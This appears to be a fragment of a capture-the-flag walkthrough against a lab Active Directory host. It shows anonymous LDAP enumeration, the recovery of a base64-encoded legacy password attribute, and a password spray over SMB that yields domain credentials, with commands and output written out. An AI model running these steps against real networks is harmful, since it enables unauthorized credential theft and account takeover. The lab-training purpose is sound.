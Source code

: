 LDAP enumeration:

```bash
# enumerate naming contexts
$ ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts
#

#
dn:
namingContexts: DC=cascade,DC=local
namingContexts: CN=Configuration,DC=cascade,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=cascade,DC=local
namingContexts: DC=DomainDnsZones,DC=cascade,DC=local
namingContexts: DC=ForestDnsZones,DC=cascade,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Dump all LDAP info and search low-frequency fields:

```bash
# dump all LDAP info
$ $ ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldapsearch_output

# search for anomalies
$ cat ldapsearch_output | awk '{print $1}' | sort | uniq -c | sort -n | grep ':'
<SNIP>
      1 cascadeLegacyPwd:
<SNIP>
```

Search for the field found in the LDAP output:

```bash
$ cat ldapsearch_output | grep cascadeLegacyPwd
cascadeLegacyPwd: clk0bjVldmE=
# decode the string
$ echo 'clk0bjVldmE=' | base64 -d
r<REDACTED>a
```

Perform a password spray:

```bash
$ nxc smb 10.10.10.182 -u domain_users.txt -p 'r<REDACTED>a' | grep +
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:r<REDACTED>a
```
